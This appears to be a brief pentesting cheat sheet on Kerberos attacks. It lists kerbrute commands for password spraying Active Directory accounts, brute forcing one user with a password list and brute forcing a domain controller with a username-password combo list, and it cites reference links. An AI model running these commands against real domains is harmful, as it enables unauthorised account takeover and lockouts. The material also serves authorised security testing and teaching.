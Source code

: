 # Kerberos

- Password Spray each domain username accounts from an active directory

`$ ./kerbrute passwordspray -d <FQDN> usernames.txt <password>`

- Brute force a username with a password dictionary (not recommended unless it has no lockout policy!)

`$ ./kerbrute bruteuser -d <FQDN> passwords.txt <username>`

- Brute force with a combo list of usernames and passwords against a domain controller

`$ cat combos.txt | ./kerbrute -d <FQDN> bruteforce -`

### **References**

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)